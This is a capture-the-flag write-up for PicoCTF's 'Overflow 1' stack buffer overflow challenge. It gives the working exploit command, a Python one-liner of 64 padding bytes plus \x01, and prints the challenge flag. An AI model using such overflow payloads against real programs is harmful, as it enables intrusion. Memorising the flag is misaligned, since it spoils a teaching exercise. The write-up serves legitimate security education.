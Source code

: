 # Overflow 1

* Problem:

  Stack overflows are the most basic binary exploitation technique, but they take a lot of skill to master. If you already know some C, these problems can help acquaint you with stacks and binary exploitation in general.

  Problem available on the shell machine in `/problems/stack_overflow_1_3948d17028101c40` , downloadable here with source here.

  If you solve the problem you will be able to read the key file by running

    `cat /problems/stack_overflow_1_3948d17028101c40/key`
  on the PicoCTF shell machine.

* Solution:

  Simple [buffer overflow](http://en.wikipedia.org/wiki/Buffer_overflow) exploit, we notice char is 64 bytes, hence we can craft a 64 character string as padding. Observing the code, we see that we need `win == 1`, hence we set the char after 64 padding to be `\x01`. We do this by using inline python `python -c 'print "a" * 64 + "\x01"'`, and use back tick to combine the two commands. The final command executed is ``./overflow1-3948d17028101c40 `python -c 'print "a"*64 + "\x01"'` ``. Then we can get the shell and execute `cat key`

  NOTE: `python -c 'print "a"*64 + "\x01"' | xargs ./overflow1-3948d17028101c40` will work for the buffer overflow, but will not give you the shell!!! The reason is still being determined, and will be updated later.

* Answer:

  overflow_is_best_flow
